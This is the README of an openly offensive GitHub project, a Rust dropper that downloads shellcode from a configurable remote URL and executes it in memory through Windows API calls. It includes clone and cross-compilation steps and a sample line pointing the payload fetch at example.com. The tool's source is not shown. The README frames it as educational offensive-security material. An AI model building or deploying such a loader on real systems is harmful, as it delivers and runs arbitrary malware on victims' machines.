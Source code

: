 # Rust-Dropper
A lightweight Rust-based dropper designed to fetch and execute shellcode from a remote server. 
This project demonstrates how to implement a dropper with memory allocation and shellcode execution techniques using Rust and Windows API calls. Ideal for educational purposes and exploring offensive security concepts.

## Features
- Downloads shellcode from a specified URL.
- Allocates memory and executes the downloaded shellcode.
- Utilizes Windows API calls for memory management and execution.

## Prerequisites
- Rust programming language: [Install Rust](https://www.rust-lang.org/tools/install)
- mingw-w64 for Windows target: [Install mingw-w64](http://mingw-w64.org/doku.php/download)

## Installation

Clone the repository:

```bash
git clone https://github.com/Erez-Goldberg/rust-dropper.git
cd Rust-Dropper
```

## Usage
Edit the main.rs file to specify the URL of your shellcode:
```bash
let url = "https://example.com/shellcode.bin";
```

## Compilation
Windows
1. Ensure you have mingw-w64 installed:
```bash
sudo apt install mingw-w64
```
2. compile the project with:
```bash
cargo build --release --target x86_64-pc-windows-gnu
```
